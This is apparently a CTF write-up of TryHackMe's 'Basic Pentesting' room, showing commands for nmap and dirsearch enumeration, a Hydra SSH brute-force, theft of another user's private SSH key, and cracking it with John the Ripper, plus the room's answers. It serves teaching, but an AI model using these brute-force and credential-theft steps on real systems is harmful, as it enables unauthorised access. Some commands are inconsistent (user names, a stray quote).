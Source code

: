  Writeup: Basic Pentesting ( TryHackMe )

> "The more you explore, the more you learn. Let's get our hands dirty with enumeration and exploitation!"

Welcome to this CTF adventure where we dive deep into the core concepts of hacking: brute forcing, hash cracking, service enumeration, and Linux post-exploitation enumeration. Buckle up, grab a coffee (or Red Bull), and let's get started!

---

 Step 1: Connecting to the Network

First things first, we connect to the target's network using our trusted OpenVPN configuration file:

```
sudo openvpn your-config.ovpn
```

Once connected, you're in the playground. Time to explore!

---

 Step 2: Find the Services

To figure out what services the machine is exposing, we use the powerful Nmap.

 🛠 Tool Spotlight: Nmap

Nmap (Network Mapper) is like sonar for hackers. It scans machines to detect live hosts, open ports, and running services. Super useful to know your entry points.

```
nmap -sV <target-ip>
```

Boom! Nmap tells us that SSH (22) and a web server (80) are open.

---

 Step 3: Discover Hidden Web Directory

We used Dirsearch, a web content scanner, to find hidden paths on the website.

 🛠 Tool Spotlight: Dirsearch

Think of Dirsearch as a nosy neighbor checking every door in your house to see which ones are unlocked. It brute-forces URLs based on a wordlist.

```
dirsearch -u http://<target-ip>
```

We uncover a juicy hidden directory:

```
/development/
```

> 🎯 Answer: development

![Screenshot 2025-07-08 130426](https://github.com/user-attachments/assets/83dbe983-e1fe-4c2e-a2c6-214d200e5c66)

---

 Step 4: Brute Forcing the Login Page

With a login page under `/admin`, we now need credentials. But first, let's see what users are on the machine.

We use enum4linux to enumerate users via SMB:

 🛠 Tool Spotlight: enum4linux

Enum4linux is a Linux tool used to extract information from Windows or Samba systems. It’s like gossiping with the server — you get user lists, shares, and more.

```
enum4linux <target-ip>
```

It returns a possible username:

```
jan
```

> 🧍 Answer: jan

![Screenshot 2025-07-08 132718](https://github.com/user-attachments/assets/70fe0413-ec0c-427d-9753-8ab3a5308e21)

Time for Hydra, the beast for brute-forcing:

 🛠 Tool Spotlight: Hydra

Hydra is the brute-forcing Hulk. It tries multiple username-password combinations super fast. Just feed it a wordlist and go!

```bash
hydra -l user1 -P /usr/share/wordlists/rockyou.txt ssh://<target-ip>"
```

Eventually, Hydra cracks the password:

```
armando
```

> 🔐 Answer: armando

![Screenshot 2025-07-08 133638](https://github.com/user-attachments/assets/3f1bc59d-9813-4942-9c8f-f65d7779eba0)


---

 Step 5: SSH Access

With the credentials in hand, we attempt to login via SSH (thanks, Nmap, for showing us SSH was open):

 🛠 Tool Spotlight: SSH

SSH (Secure Shell) is the front door to a Linux box. If you’ve got the key (username + password), you're in!

```bash
ssh jan@<target-ip>
```

Success!

> 💻 Answer: SSH

---

 Step 6: Privilege Escalation Time!

Inside the machine, we snoop around and discover another user.

Using `enum4linux` again or checking `/home`:

```bash
ls /home
```

We find:

```
kay
```

> 🧍‍♂️ Answer: kay

 What can you do with this information?

Knowing another user exists gives us a new target to escalate to. We look for weak file permissions, leftover SSH keys, or SUID binaries.

---

 Step 7: Found an SSH Key! 🔑

Inside the `kay` user's `.ssh` folder:

```bash
ls -la /home/kay/.ssh/id_rsa
```

We find:

```
id_rsa
```

We copy the key content using `nano`:

```
nano id_rsa
```

Save it locally as `h_rsa` and secure it:

```
chmod 600 h_rsa
```

But it's password-protected! Time to crack the SSH private key using John the Ripper.

---

 Step 8: Cracking the RSA Key

We first convert the key into a format John can understand using ssh2john.

 🛠 Tool Spotlight: ssh2john

ssh2john transforms SSH private keys into a format readable by John the Ripper. Think of it as translating a lock into lock-picking instructions.

```bash
ssh2john h_rsa > h.txt
```

Then run John:

 🛠 Tool Spotlight: John the Ripper

John is the password-cracking wizard. Feed it hashes and a wordlist, and it will try everything to break in.

```bash
john h.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Eventually, it reveals:

```
beeswax
```
![Screenshot 2025-07-08 144014](https://github.com/user-attachments/assets/1c9c60c2-ee24-48e9-b9ff-11288d7aa7c8)

We use the key to login:

```bash
ssh -i h_rsa james@<target-ip>
```

> 🧠 Final Password: heresareallystrongpasswordthatfollowsthepasswordpolicy$$

![1721177547462](https://github.com/user-attachments/assets/b285f86f-2c99-4e64-9f64-94c1f4bdae67)


---

 🏁 Conclusion

You've now explored:

 Finding hidden web directories (Dirsearch)
 Enumerating users (Enum4linux)
 Brute-forcing (Hydra)
 Cracking password-protected SSH keys (John + ssh2john)
 Privilege escalation via stolen keys

Every step brought us closer to full access. Remember, enumeration is the key 🔑 to success in CTFs. Stay curious and hack responsibly!

---

Credits: Inspired by Josiah Pierce (Vulnhub)

Tools Used Recap:

 🧭 Nmap – find open ports and services
 🕵️‍♂️ Dirsearch – scan for hidden web directories
 🧾 Enum4linux – enumerate SMB/Windows users
 💥 Hydra – brute-force login credentials
 🔓 SSH – access remote machines
 🔐 ssh2john – convert SSH keys for cracking
 🧙 John the Ripper – crack hashed passwords

Happy Hacking! 🧑‍💻
